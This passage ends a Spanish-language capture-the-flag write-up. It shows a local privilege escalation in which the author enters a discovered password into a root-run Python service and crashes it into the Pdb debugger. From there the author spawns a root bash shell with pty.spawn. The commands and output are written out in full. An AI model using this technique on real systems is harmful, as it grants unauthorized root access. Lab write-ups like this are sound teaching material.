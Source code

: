 ```bash
mur@phisermansphriends:~$ telnet localhost 443
Trying ::1...
Connection failed: Conexión rehusada
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: SuperSecretPass
Hola admin!

Que hacemos: 
[1] Ver procesos
[2] Ver espacio libre
[3] Ver sockets
[4] Salir
h
```

Metemos la clave que habíamos encontrado y en provocamos un fallo introduciendo un carácter en vez de un dígito.  Como vemos en la otra terminal, donde ejecutamos el socket, que nos muestra un error. La librería Pdb tiene un modo interactivo que nos permite ejecutar código en python. Entramos con interactive y abrimos una shell:

```bash
mur@phisermansphriends:~$ sudo /usr/bin/python3 /opt/util.py
Escuchando en localhost:443
invalid literal for int() with base 10: b'h'
> /opt/util.py(29)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) interact
*interactive*
>>> import pty
>>> pty.spawn('/bin/bash')
root@phisermansphriends:/home/mur#
```

Espero que os haya gustado.